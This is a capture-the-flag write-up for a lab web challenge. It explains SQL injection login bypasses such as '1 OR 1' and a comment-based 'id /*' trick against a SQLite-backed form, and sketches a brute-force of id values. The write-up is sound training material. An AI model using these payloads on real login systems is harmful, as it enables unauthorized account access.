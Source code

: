 **Name**: Blacklist  
**Points**: 200  
**Instructions**: There is a website running at http://challenges.runesec.com:37953. Can you login? If not, try smarter not harder.  
**Hint**: Some hackers love the quote symbol. Some developers love the blacklist approach. What about you?  

## Exploration

- We're given the following login portal:
```
<div class="form-group">
   <label for="username">ID:</label>
   <input type="number" id="username" name="id" class="form-control">
</div>
<div class="form-group">
   <label for="password">Password:</label>
   <div class="controls">
      <input type="password" id="password" name="password" class="form-control">
   </div>
</div>
```

- From the hint of this challenge, we know we'll have to craft an SQL injection query to get through. We also know there's a blacklist that filters out some SQL semantics from the input.

- The first HTML input field (for username/id) has `type="number"` so it can only accept numeric values. Not really. We can edit the type to `type="text"` through our browser's dev tools and input whatever we want. 

- We could also send our requests outside of the browser, through `curl`, for example.

- Using `'` and `"` in the inputs makes the page throw some errors:  
```
Warning: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: "\" in /problems/blacklist_6/webroot/login.php on line 20   
Fatal error: Uncaught Error: Call to a member function fetchArray() on boolean in /problems/blacklist_6/webroot/login.php:22 Stack trace: #0 {main} thrown in /problems/blacklist_6/webroot/login.php on line 22
```

## Exploitation

Let's try guess the query that's invoked on the server to authorize users:
```
SELECT * FROM ??? WHERE ???={input} AND ???="{input}";
```
We have no idea what the table is named.  
We have some idea what the 2 columns might be called. `id` and `password` maybe? Let's go with that.

So our guess now is:
```
SELECT * FROM ??? WHERE id={input} AND password="{input}";
```

So, for us to get through, it all boils down to making the expression `id={input} AND password="{input}"` evaluate to true.

*Notice there are no quotes around the input for id. That's because it's expecting a numeric value. We can be confident about that since the UI is only allowing for numeric input.*

#### Solution 1
```
Username: 1 OR 1  
Password:  
```
Which results to the following crafted query on the server:
```
SELECT * FROM ??? WHERE id=1 OR 1 AND password="";
```

> SQLite does not have a separate Boolean storage class. Instead, Boolean values are stored as integers 0 (false) and 1 (true). (https://sqlite.org/datatype3.html)

The crafted query above works because `false OR true AND false` => `true`, since `anything OR true` evaluates to `true`, always.  

We're lucky `OR` is not blacklisted.

#### Solution 2
```
Username: id /*  
Password:  
```
Which results to the following crafted query on the server:
```
SELECT * FROM ??? WHERE id=id /* AND password="";
```

For this to work we have to correctly guess the column for the username/id field. `id=id` is always `true` since we compare something with itself. `/*` opens a multi-line comment which makes whatever comes after it irrelevant when the query is evaluated. Thus, the password doesn't matter.

#### More Solutions
There are plenty of crafted queries that can get us in, but we have a strong preference towards short and concise solutions.  

We could also (naively) write a script to brute force the id:  
`id=0 /*`  
`id=1 /*`  
`id=-1 /*`  
`id=2 /*`  
`id=-2 /*`  
...  
`id=9000 /*`  
`id=-9000 /*`  
...  
...  
...  
*To infinity and beyond!*
